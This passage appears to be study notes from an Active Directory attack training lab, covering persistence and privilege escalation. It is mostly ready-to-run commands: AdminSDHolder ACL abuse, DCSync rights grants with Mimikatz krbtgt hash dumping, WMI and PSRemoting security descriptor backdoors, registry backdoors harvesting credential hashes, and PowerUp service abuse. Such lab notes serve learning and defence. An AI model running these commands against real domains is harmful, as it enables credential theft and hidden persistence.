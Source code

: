   * Server Operators - run a command as system (using disabled Browser service)
  * Print Operators - copy ntds.dit backup, load device drivers
* This AdminSDHolder ACL can be abused. If we add privileges for an account we control to this ACL, they will propagate to the ACLs for all these Privileged Groups automatically (or when we trigger it).  (*must be DA to grant the rights*)
* PowerView `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights All -Verbose`
* ADModule `Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose`
* Then trigger the propagation immediately using `Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose`

### DCSync
* To be more stealthy, grant rights to user account to DCSync, then we can get krbtgt hash at any time (*must be DA to grant the rights*)
  * PowerView `Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student1 -Rights DCSync -Verbose`
  * ADModule `Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -GUIDRight DCSync -Verbose`
  * Then get the krbtgt hash at any time with `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`

### Persistence Using ACLs - Security Descriptors
* Modify Security Descriptors (eg Owner, primary group, DACL, SACL) of multiple remote access methods to allow access to non-admin users
* Security Descriptor Definition Language (SDDL) - format used to describe a security descriptor. Uses ACE strings for DACL and SACL:
  * ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid 
  * ACE for built-in admins for WMI namespaces: `A;CI;CCDCLCSWRPWPRCWD;;;SID`. Replacing SID with the SID of our account, we get full ACL access for that namespace
* Set-RemoteWMI.ps1 `Set-RemoteWMI -UserName student1` or for remote machine: `Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' ` (`-Remove` to clean up)
* Set-RemotePSRemoting.ps1 `Set-RemotePSRemoting -UserName student1` or for remote machine: `Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc ` (*Note: Even if there are IO or other errors, the command may still have worked.*) To remove: `Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc -Remove` 
* **Discretionary ACL Modification Project (DAMP)** - Persistence Through Host-based Security Descriptor Modification
  * **NOTE**: Fix in *RemoteHashRetrieval.ps1* - rename variable `$IV` to `$InitVector` (Find+Replace works)
  * `Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose`
  * `Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose`
  * `Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose`
  * `Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose`


<hr/>

## Privilege Escalation

### Local PrivEsc
* PowerSploit PowerUp
  * `Invoke-AllChecks`
  * Exploitable Service Configurations
    * `Get-ServiceUnquoted`
      * C:\WebServer\Abyss Web Server\WebServer\abyssws.exe
      * `Write-ServiceBinary -Name 'AbyssWebServer' -Path c:\webserver\Abyss.exe`
    * `Get-ModifiableServiceFile`
    * `Get-ModifiableService` 
      * `Invoke-ServiceAbuse -Name 'AbyssWebServer'`
